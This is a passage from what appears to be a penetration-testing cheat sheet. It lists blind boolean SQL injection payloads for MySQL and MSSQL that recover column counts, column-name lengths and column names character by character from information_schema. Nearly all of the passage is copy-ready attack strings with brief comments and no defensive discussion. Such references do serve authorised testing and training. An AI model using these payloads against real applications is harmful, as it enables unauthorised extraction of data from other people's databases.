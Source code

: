 Third, retrieve name of each column

```sql
-- If True, the first char of the first column is a
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=HEX('a')-- -

-- If True, the second char of the first column is b
1'AND (SELECT HEX(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=HEX('b')-- -

-- If True, the first char of the second column is p
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='TABLE_NAME_HERE' LIMIT 1,1)=HEX('p')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
First, retrieve the number of columns:

```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE')=2--  #True -> 2 tables
```

Second, retrieve length of each columns

```sql
-- If True, the first column lenght is 5
1' AND (SELECT TOP 1 LEN(column_name) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE')=5-- 

-- If True, the second column lenght is 5
1' AND (SELECT TOP 1 LEN(column_name) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE' AND column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns))=5--

-- If True, the third column lenght is 5
1' AND (SELECT TOP 1 LEN(column_name) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE' AND column_name NOT IN(SELECT TOP 2 column_name FROM information_schema.columns))=5-- 
```

Third, retrieve name of each columns

```sql
-- If True, the first char of the first column is a
1'AND (SELECT TOP 1 ASCII(SUBSTRING(column_name, 1, 1)) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE')=97--

-- If True, the second char of the first column is b
1'AND (SELECT TOP 1 ASCII(SUBSTRING(column_name, 2, 1)) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE')=98--

-- If True, the first char of the second column is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(column_name, 1, 1)) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE' AND column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns))=112--

-- If True, the first char of the third column is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(column_name, 1, 1)) FROM information_schema.columns WHERE TABLE_CATALOG=DB_NAME() AND table_name='TABLE_NAME_HERE' AND column_name NOT IN(SELECT TOP 2 column_name FROM information_schema.columns))=112--
```
{% endtab %}
